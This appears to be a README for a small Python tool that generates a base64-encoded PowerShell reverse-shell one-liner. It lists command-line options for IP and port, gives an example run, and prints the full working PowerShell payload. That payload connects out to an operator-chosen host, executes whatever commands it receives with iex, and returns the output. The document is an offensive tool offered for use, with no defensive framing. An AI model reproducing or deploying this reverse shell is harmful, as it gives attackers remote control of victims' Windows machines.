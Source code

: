 # psh_reverse_OneLine
Generate the command to make a powershell revershell (the one liner encoded in base64)

syntax:

	--help or -h	print manual
 
	--ip or -i	specify IP
 
	--port or -p	specify port
 
Example:

	python3 psh_reverse_OneLine.py -i 192.168.1.2 -p 4444
	
FYI, the powershell reverse shell one liner code as below:

	$client = New-Object System.Net.Sockets.TCPClient("<your IP>", <your port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
